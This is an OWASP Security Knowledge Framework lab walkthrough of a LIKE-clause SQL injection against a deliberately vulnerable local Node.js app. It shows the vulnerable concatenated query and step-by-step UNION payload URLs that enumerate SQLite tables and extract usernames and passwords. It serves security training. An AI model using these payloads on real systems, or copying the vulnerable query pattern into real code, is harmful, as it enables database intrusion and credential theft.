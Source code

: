 # SQLI \(Like\)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/nodejs/SQLI-Like/1.png)

```text
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI-Like/2.png)

```text
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get( "SELECT UserName, email FROM users WHERE UserName LIKE '%" + username + "%' ORDER BY UserId"
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/nodejs/SQLI-Like/4.png)

```text
http://http://localhost:5000/home/Admin%25'--
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI-Like/11.png)

```text
http://127.0.0.1:5000/home/Admin%25' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/nodejs/SQLI-Like/5.png)

```text
http://localhost:5000/home/Admin%25' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely  
\* UserName \* email

![](../../.gitbook/assets/nodejs/SQLI-Like/15.png)

```text
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/nodejs/SQLI-Like/6.png)

```text
http://localhost:5000/home/Admin%25' UNION SELECT 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/nodejs/SQLI-Like/7.png)

```text
http://localhost:5000/home/Admin%25' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/nodejs/SQLI-Like/8.png)

```text
http://localhost:5000/home/Admin%25' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}

